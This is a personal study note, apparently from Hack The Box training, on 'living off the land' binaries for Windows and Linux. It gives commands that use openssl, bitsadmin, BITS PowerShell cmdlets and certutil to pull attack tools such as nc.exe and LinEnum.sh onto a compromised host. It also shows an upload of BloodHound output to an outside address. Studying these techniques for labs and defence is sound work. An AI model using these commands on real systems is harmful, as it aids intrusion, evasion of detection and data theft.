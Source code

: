 ```yaml
---
title:  "LOLBins"
tags:
  - cs/hacking
  - cs/hacking/htb
programming-languagues:
created: 2022-07-11
---
```

Aka Living off the land binaries, which are binaries that an attacker can use to perform actions beyond their original purpose.

Two websites on this:
- LOLBAS Project for **Windows** Binaries ([here](https://lolbas-project.github.io/#))
- GTFOBins for **Linux** Binaries ([here](https://gtfobins.github.io/))

They can be used to perform actions like:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## GTFOBins
We can search for the download and upload function using `+file download` and `+file upload`:

We can use **openssl**. We first need to create a certificate and start a server.

### Create Certificate in Pwnbox
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

### Stand up the Server in our Pwnbox
```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Now to download the file from the compromised machine.

### Download File from the Compromised Machine
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Lol Tools
### Bitsadmin Download function
The Background Intelligent Transfer Service ([BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)) can be used to download files from HTTP sites and SMB shares.

#### File download with bitsadmin
```powershell
PS bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Download
```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload
```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override-ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil
A defacto to `wget`. The Antimalware Scan Interface (AMSI) detects this as malicious Certutil usage:

```bash
cerutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```